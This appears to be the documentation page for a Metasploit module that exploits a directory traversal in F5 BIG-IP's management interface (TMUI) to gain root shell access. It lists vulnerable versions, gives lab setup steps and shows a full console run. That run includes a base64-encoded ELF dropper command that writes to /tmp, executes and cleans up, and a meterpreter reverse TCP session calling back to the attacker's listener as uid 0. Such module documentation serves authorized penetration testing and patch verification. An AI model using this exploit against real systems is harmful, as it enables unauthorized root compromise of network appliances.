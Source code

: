## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the Unix root user.

Unix shell access is obtained by escaping the restricted Traffic
Management Shell (TMSH). The escape isn't very reliable, so you may
have to run the exploit multiple times. Sorry!

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested against the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

You _may_ need to log in to the management interface as the `admin` user
to complete system initialization and make the target exploitable. The
default password for the `admin` user is `admin`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/f5_bigip_tmui_rce) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(linux/http/f5_bigip_tmui_rce) > set rhosts 172.16.249.179
rhosts => 172.16.249.179
msf5 exploit(linux/http/f5_bigip_tmui_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[-] Alias "list" already exists, deleting it
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'
[*] Uploading /tmp/WuyGIfbP
[+] Successfully uploaded /tmp/WuyGIfbP
[*] Executing /tmp/WuyGIfbP
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.16.249.179
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.179:55118) at 2020-07-17 06:06:38 -0500
[+] Deleted /tmp/WuyGIfbP
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

meterpreter > getuid
Server username: no-user @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.26.2.el7.ve.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
